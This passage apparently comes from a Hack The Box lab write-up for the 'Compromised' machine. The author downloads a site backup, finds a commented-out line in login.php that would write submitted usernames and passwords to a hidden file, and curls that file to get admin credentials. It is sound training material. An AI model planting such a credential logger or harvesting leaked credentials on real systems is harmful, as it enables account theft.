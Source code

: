 ### Downloading a.tar.gz
```console
local@local:~/Documents/htb/boxes/compromised$ wget http://10.10.10.207/backup/a.tar.gz
```
### Extracting the contents
```console
local@local:~/Documents/htb/boxes/compromised$ tar xvf a.tar.gz
```

### Checking the contents
```console
local@local:~/Documents/htb/boxes/compromised/shop$ ls
admin  cache  data  ext  favicon.ico  images  includes  index.php  logs  pages  robots.txt  vqmod
```
Looking through the files from the backup, I found something interesting in `admin/login.php` file.
```console
local@local:~/Documents/htb/boxes/compromised/shop/admin$ cat login.php | grep -i file_put
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
```
The file `login.php` has a commented php code which puts the username and the password to a file **.log2301c9430d8593ae.txt**. So lets check if that file exists on the server.

```console
local@local:~/Documents/htb/boxes/compromised/shop/admin$ curl http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt 
User: admin Passwd: theNextGenSt0r3!~
```
And it does exist and we get a username and a password. So lets try to login into the admin panel with this username and password.

### Logging in
![3](/assets/images/compromised/3.png)
